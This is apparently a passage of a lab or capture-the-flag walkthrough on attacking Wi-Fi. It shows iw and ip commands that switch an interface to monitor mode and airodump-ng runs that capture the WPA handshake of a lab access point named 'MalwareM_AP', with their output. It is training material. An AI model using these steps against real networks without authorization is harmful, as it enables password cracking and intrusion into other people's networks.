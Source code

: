 ```shell
	RSN:	 * Version: 1
		 * Group cipher: CCMP
		 * Pairwise ciphers: CCMP
		 * Authentication suites: PSK
		 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
	Supported operating classes:
		 * current operating class: 81
	Extended capabilities:
		 * Extended Channel Switching
		 * Operating Mode Notification
```

**What is the BSSID of our wireless interface?**

```shell
sudo iw dev wlan2 info | grep addr | awk '{print $2}'
```

Turn device off, switch to monitor mode and turn device back on:
```shell
sudo ip link set dev wlan2 down
sudo iw dev wlan2 set type monitor
sudo ip link set dev wlan2 up
sudo iw dev wlan2 info

Interface wlan2
	ifindex 5
	wdev 0x200000001
	addr 02:00:00:00:02:00
	type monitor
	wiphy 2
	channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
	txpower 20.00 dBm
```

Capture Wi-Fi traffic in the area, specifically targeting the WPA handshake packets, **you can CTRL+C to exit**:
```shell
sudo airodump-ng wlan2

CH 11 ][ Elapsed: 6 s ][ 2024-12-11 17:30

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

02:00:00:00:00:00  -28        2        0    0   6   54   WPA2 CCMP   PSK  MalwareM_AP

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
```

Once we have MalwareM_AP access point's BSSID, focus on it and capture the WPA handshake, **keep this command running in one terminal**:
```shell
sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2

CH  6 ][ Elapsed: 24 s ][ 2024-12-11 17:32

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

02:00:00:00:00:00  -28 100      250        0    0   6   54   WPA2 CCMP   PSK  MalwareM_AP

BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

02:00:00:00:00:00  02:00:00:00:01:00  -29    0 - 1      0        1
```
